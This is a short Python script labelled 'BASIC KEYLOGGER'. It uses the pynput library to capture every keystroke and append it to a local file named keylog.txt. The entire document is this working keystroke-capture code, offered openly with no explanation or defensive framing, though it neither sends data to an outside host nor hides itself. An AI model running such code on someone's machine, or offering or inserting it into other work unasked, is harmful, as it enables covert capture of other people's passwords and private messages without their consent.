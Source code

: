 #BASIC KEYLOGGER

from pynput.keyboard import Listener

log_file = "keylog.txt"

def on_press(key):
    with open(log_file, "a") as f:
        f.write(f"{key}\n")

with Listener(on_press=on_press) as listener:
    listener.join()
